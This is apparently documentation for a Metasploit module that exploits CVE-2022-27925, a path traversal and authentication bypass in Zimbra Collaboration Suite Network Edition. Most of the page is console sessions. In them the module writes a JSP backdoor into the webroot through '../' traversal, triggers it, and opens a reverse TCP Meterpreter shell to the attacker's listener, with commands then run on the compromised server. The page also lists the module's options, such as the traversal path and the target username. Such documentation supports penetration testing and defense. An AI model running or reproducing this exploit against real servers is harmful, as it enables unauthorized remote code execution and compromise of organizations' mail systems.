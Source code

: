 ## Vulnerable Application

This module exploits a path-traversal vulnerability as well as an authentication-bypass vulnerability in the following versions Zimbra Collaboration Suite:

* Zimbra Collaboration Suite Network Edition 9.0.0 Patch 23 (and earlier)
* Zimbra Collaboration Suite Network Edition 8.8.15 Patch 30 (and earlier)

Note that the open source edition is not affected.

Installing the vulnerable versions of Zimbra is a pain, unfortunately. I used a trial version of ZCS 8.8.12, which you can currently get [here](https://www.zimbra.com/downloads/zimbra-collaboration/). On the download page, after you register with a valid email address, there's an "older versions" link where you can get vulnerable versions.

## Verification Steps

This module should be simple to use out of the box, once the server is up, it's vulnerable:

```
msf6 > use exploit/linux/http/zimbra_mboximport_cve_2022_27925
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set RHOSTS 10.0.0.166
RHOSTS => 10.0.0.166
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set LHOST 10.0.0.146
LHOST => 10.0.0.146
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > exploit

[*] Started reverse TCP handler on 10.0.0.146:4444
[*] Encoding the payload as a .jsp file
[*] Target filename: ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/wuuvqmtko.jsp
[*] Sending POST request with ZIP file
[*] Trying to trigger the backdoor @ public/wuuvqmtko.jsp
[*] Sending stage (3020772 bytes) to 10.0.0.166
[+] Successfully triggered the payload
[+] Deleted ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/wuuvqmtko.jsp
[*] Meterpreter session 1 opened (10.0.0.146:4444 -> 10.0.0.166:35180) at 2022-08-19 11:06:38 -0700
```

There's no easy way that I see to check for the patch (and the only vulnerable version I have is quite a bit older), so the "patched" experience tries to exploit:

```
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > exploit

[*] Started reverse TCP handler on 10.0.0.146:4444
[*] Encoding the payload as a .jsp file
[*] Target filename: ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/gauca.jsp
[*] Sending POST request with ZIP file
[*] Trying to trigger the backdoor @ public/gauca.jsp
[-] Exploit aborted due to failure: unknown: Payload was not uploaded, the server probably isn't vulnerable
[!] This exploit may require manual cleanup of '../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/gauca.jsp' on the target
[*] Exploit completed, but no session was created.
```

## Options

### `TARGET_PATH`

The path (traversal included) where the payload will extract to. The default is the webroot, which is usually pretty safe.

### `TARGET_FILENAME`

The actual filename. It really should end with `.jsp`, otherwise it won't execute.

By default, it's a random string with `.jsp` on the end. That should work fine, especially because we can't overwrite files and don't want to use the same payload name more than once.

### `RPORT_PUBLIC`

The HTTPS port for Zimbra, which is used to trigger the payload (since we can't seem to run JSP scripts in the zimbraAdmin root)

### `TARGET_USERNAME`

The username included in the `mboximport` request - any valid username works, `admin` is usually fine

## Scenarios

### Zimbra Collaboration Suite Network Edition 8.8.12 Patch 6 on Ubuntu 18.04

```
msf6 > use exploit/linux/http/zimbra_mboximport_cve_2022_27925
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set RHOSTS 10.0.0.166
RHOSTS => 10.0.0.166
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set LHOST 10.0.0.146
LHOST => 10.0.0.146
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > show options

Module options (exploit/linux/http/zimbra_mboximport_cve_2022_27925):

   Name             Current Setting                                                                   Required  Description
   ----             ---------------                                                                   --------  -----------
   Proxies                                                                                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS           10.0.0.166                                                                        yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT            7071                                                                              yes       The target port (TCP)
   RPORT_PUBLIC     443                                                                               no        The port used to trigger the payload (typically the main web port, as opposed to the admin port)
   SSL              true                                                                              no        Negotiate SSL/TLS for outgoing connections
   TARGET_FILENAME                                                                                    no        The filename to write in the target directory; should have a .jsp extension (default: <random>.jsp).
   TARGET_PATH      ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/  yes       The location the payload should extract to (can, and should, contain path traversal characters - "../../").
   TARGET_USERNAME  admin                                                                             yes       The target user, must be valid on the Zimbra server
   VHOST                                                                                              no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.0.146       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Zimbra Collaboration Suite

msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > exploit

[*] Started reverse TCP handler on 10.0.0.146:4444 
[*] Encoding the payload as a .jsp file
[*] Target filename: ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/nkxj.jsp
[*] Sending POST request with ZIP file
[*] Trying to trigger the backdoor @ public/nkxj.jsp
[*] Sending stage (3020772 bytes) to 10.0.0.166
[+] Successfully triggered the payload
[+] Deleted ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/nkxj.jsp
[*] Meterpreter session 1 opened (10.0.0.146:4444 -> 10.0.0.166:48640) at 2022-08-22 11:08:19 -0700

meterpreter > getuid
Server username: zimbra

meterpreter > shell
Process 121849 created.
Channel 1 created.
/opt/zimbra/bin/zmcontrol -v
Release 8.8.12.GA.3794.UBUNTU18.64 UBUNTU18_64 NETWORK edition, Patch 8.8.12_P6.
```

### Zimbra Collaboration Suite Network Edition 8.8.15 Patch 33 on Ubuntu 18.04

Note: This version is not vulnerable, because the issue is patched

```
msf6 > use exploit/linux/http/zimbra_mboximport_cve_2022_27925
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set RHOSTS 10.0.0.167
RHOSTS => 10.0.0.167
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set LHOST 10.0.0.146
LHOST => 10.0.0.146
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > exploit

[*] Started reverse TCP handler on 10.0.0.146:4444
[*] Encoding the payload as a .jsp file
[*] Target filename: ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/gauca.jsp
[*] Sending POST request with ZIP file
[*] Trying to trigger the backdoor @ public/gauca.jsp
[-] Exploit aborted due to failure: unknown: Payload was not uploaded, the server probably isn't vulnerable
[!] This exploit may require manual cleanup of '../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/gauca.jsp' on the target
[*] Exploit completed, but no session was created.
```

### Zimbra Collaboration Suite Open Source Edition Patch 8.8.12 Patch 6 on Ubuntu 18.04

Note: This version is not vulnerable, the open source edition doesn't have the correct path.

```
msf6 > use exploit/linux/http/zimbra_mboximport_cve_2022_27925
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set RHOSTS 10.0.0.164
RHOSTS => 10.0.0.164
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set LHOST 10.0.0.146
LHOST => 10.0.0.146
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > exploit

[*] Started reverse TCP handler on 10.0.0.146:4444 
[*] Encoding the payload as a .jsp file
[*] Target filename: ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/cualvccyq.jsp
[*] Sending POST request with ZIP file
[-] Exploit aborted due to failure: not-found: The target path was not found, target is probably not vulnerable
[*] Exploit completed, but no session was created.
```
